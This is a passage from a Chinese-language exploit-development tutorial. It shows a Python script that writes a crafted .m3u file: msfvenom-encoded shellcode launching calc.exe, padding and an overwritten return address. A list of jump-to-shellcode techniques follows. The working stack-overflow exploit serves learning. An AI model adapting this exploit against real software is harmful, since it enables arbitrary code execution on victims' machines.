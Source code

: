 既然函数调用过程中会fread起始的0x400字节，那么就在此处填充shellcode，直接覆盖eip为固定的栈地址，同样也是可以利用成功的：

```python
ret = "\xdc\xfc\x0f\x00"  # 000ffcdc

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x00' -f python -v shellcode -n 16
# Found 1 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai succeeded with size 220 (iteration=0)
# x86/shikata_ga_nai chosen with final size 220
# Successfully added NOP sled from x86/single_byte
# Payload size: 236 bytes
# Final size of python file: 1280 bytes
shellcode =  ""
shellcode += "\x4b\x91\x93\x92\xd6\x9f\x4b\x98\x41\xf9\xf8\xf9"
shellcode += "\xfc\x49\x4a\x27\xbb\x7b\xc9\xb4\x48\xd9\xcd\xd9"
shellcode += "\x74\x24\xf4\x58\x29\xc9\xb1\x31\x31\x58\x13\x03"
shellcode += "\x58\x13\x83\xc0\x7f\x2b\x41\xb4\x97\x29\xaa\x45"
shellcode += "\x67\x4e\x22\xa0\x56\x4e\x50\xa0\xc8\x7e\x12\xe4"
shellcode += "\xe4\xf5\x76\x1d\x7f\x7b\x5f\x12\xc8\x36\xb9\x1d"
shellcode += "\xc9\x6b\xf9\x3c\x49\x76\x2e\x9f\x70\xb9\x23\xde"
shellcode += "\xb5\xa4\xce\xb2\x6e\xa2\x7d\x23\x1b\xfe\xbd\xc8"
shellcode += "\x57\xee\xc5\x2d\x2f\x11\xe7\xe3\x24\x48\x27\x05"
shellcode += "\xe9\xe0\x6e\x1d\xee\xcd\x39\x96\xc4\xba\xbb\x7e"
shellcode += "\x15\x42\x17\xbf\x9a\xb1\x69\x87\x1c\x2a\x1c\xf1"
shellcode += "\x5f\xd7\x27\xc6\x22\x03\xad\xdd\x84\xc0\x15\x3a"
shellcode += "\x35\x04\xc3\xc9\x39\xe1\x87\x96\x5d\xf4\x44\xad"
shellcode += "\x59\x7d\x6b\x62\xe8\xc5\x48\xa6\xb1\x9e\xf1\xff"
shellcode += "\x1f\x70\x0d\x1f\xc0\x2d\xab\x6b\xec\x3a\xc6\x31"
shellcode += "\x7a\xbc\x54\x4c\xc8\xbe\x66\x4f\x7c\xd7\x57\xc4"
shellcode += "\x13\xa0\x67\x0f\x50\x5e\x22\x12\xf0\xf7\xeb\xc6"
shellcode += "\x41\x9a\x0b\x3d\x85\xa3\x8f\xb4\x75\x50\x8f\xbc"
shellcode += "\x70\x1c\x17\x2c\x08\x0d\xf2\x52\xbf\x2e\xd7\x30"
shellcode += "\x5e\xbd\xbb\x98\xc5\x45\x59\xe5"

padding = "A" * (0x6600-5-len(shellcode))

# with open("pattern.txt", "r") as f:
#     pattern = f.read().strip()

payload = shellcode + padding + ret

with open("crash.m3u", "w") as f:
    f.write(payload)
```


## other jumps

个人觉得这一段还是在说，劫持eip可以执行我们的汇编代码后，手工编写jump2shellcode的一些方法：

1. 使用`popad`指令高效增加栈地址，随后`jump esp`。
2. 直接jump硬编码地址。
3. 使用近跳`\xe9`、远跳`\xea`、短跳`\xeb`负值。
4. 也可以考虑使用条件跳转相关指令。

# 0x02 总结

整个原文有趣的是，在开始处提了几笔shellcode编码和填充nop的事情，中间也说了一下软件dll rebase可能会导致地址不靠谱，用系统dll比较稳一点，看来之前的磨刀并没有耽误砍柴工。

这一章就是要跳转至shellcode执行，这个事分为两步，一个是寻找跳转的指令，一个是寻找跳转的地址。私以为漏洞利用的水平取决于，对软件功能点逆向的熟悉度，对漏洞上下文环境的观察度，对漏洞利用技巧的掌握度，整体思路的把握度再加上一点点创新度，仅此而已，聊以共勉。
